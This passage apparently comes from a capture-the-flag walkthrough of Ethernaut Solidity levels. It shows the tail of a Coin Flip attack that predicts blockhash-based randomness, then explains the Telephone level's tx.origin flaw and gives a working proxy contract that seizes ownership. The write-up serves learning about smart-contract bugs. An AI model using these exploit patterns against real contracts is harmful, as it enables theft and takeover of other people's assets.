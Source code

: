 ```jsx
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
    
        if (side == _guess) {
            originalContract.flip(_guess);
        } else {
            originalContract.flip(!_guess);
        }
    }
}
```

### 4. Telephone

The important part of this contract is below.

```jsx
if (tx.origin != msg.sender) {
      owner = _owner;
    }
```

We need to find a way to make *tx.origin* different from *msg.sender*.

The [difference between them](https://www.oreilly.com/library/view/solidity-programming-essentials/9781788831383/3d3147d9-f79f-4a0e-8c9f-befee5897083.xhtml) is that *tx.origin* always refers to the original external account (wallet) that sent the transaction. *msg.sender* refers to the direct thing that sent the transaction. 

We can create a proxy smart contract that calls the original contract for us and passes it our wallet address.

```jsx
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Solution {
    Telephone originalContract;
    
    function attack() public {
        // this address is the address of your level instance contract
        address contractAddr = 0x72911348CE5197fD66905F60b8c59C61454E57aA;
        originalContract = Telephone(contractAddr);
        originalContract.changeOwner(msg.sender);
    }
}
```
